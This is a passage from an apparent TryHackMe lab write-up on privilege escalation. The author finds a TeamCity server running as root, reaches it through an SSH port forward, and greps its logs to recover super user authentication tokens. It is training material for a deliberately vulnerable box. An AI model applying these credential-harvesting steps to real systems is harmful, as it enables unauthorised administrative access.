 Anyway, this did take me a little bit to figure out but here goes. Poking around logged in as *sys-internal* we can find */TeamCity* and there is a whole bunch of stuff in there but nothing immediately stands out as useful. Linpeas won't give us much, but it does show TeamCity running as root, e.g. 

{% highlight shell %}
root       874 15.2 36.7 3438176 749952 ?      Sl   03:40   2:52      _ /usr/lib/jvm/default-java/bin/java -Djava.util.logging.config.file=/TeamCity/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -server -Xmx1024m -Dteamcity.configuration.path=../conf/teamcity-startup.properties -Dlog4j.configuration=file:/TeamCity/bin/../conf/teamcity-server-log4j.xml -Dteamcity_logs=/TeamCity/bin/../logs -Djava.awt.headless=true -Dignore.endorsed.dirs= -classpath /TeamCity/bin/bootstrap.jar:/TeamCity/bin/tomcat-juli.jar -Dcatalina.base=/TeamCity -Dcatalina.home=/TeamCity -Djava.io.tmpdir=/TeamCity/temp org.apache.catalina.startup.Bootstrap start
{% endhighlight %}

For some reason, linpeas won't show us the open ports:

{% highlight shell %}
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                             
[+] Can I sniff with tcpdump?
{% endhighlight %}

Crickets. Humph. Now I did go down a different path for a while (Apache XML-RPC) but that wasn't it; it is TeamCity. Where do we find it? Ask [JetBrains](https://www.jetbrains.com/help/teamcity/installing-and-configuring-the-teamcity-server.html#Installing+TeamCity+Server):

>After installation, the TeamCity web UI can be accessed via a web browser. The default addresses are http://localhost/ for Windows distribution and http://localhost:8111/ for the tar.gz distribution.

I set up a port forward:

``
ssh -L 9999:127.0.0.1:8111 sys-internal@10.10.4.9
``

Note the different THM IP is because I did this in two sessions. Once I've got the port forward I can access the TeamCity GUI at localhost:9999. There, we can login as the *super user* but in order to do so, we need a [super user authentication token](https://stackoverflow.com/questions/4057891/teamcity-username-password). It's supposed to be in a particular file; let's check:

{% highlight shell %}
sys-internal@vulnnet-internal:/TeamCity/logs$ cat teamcity-server.log
cat: teamcity-server.log: Permission denied
{% endhighlight %}

D'oh! Maybe there is another place....?

{% highlight shell %}
sys-internal@vulnnet-internal:/TeamCity/logs$ grep -r token
grep: teamcity-nodes.log: Permission denied
# etc, stuff
grep: host-manager.2021-05-07.log: Permission denied
catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 1540729311393804712 (use empty username with the token as the password to access the server)
catalina.out:[TeamCity] Super user authentication token: 1540729311393804712 (use empty username with the token as the password to access the server)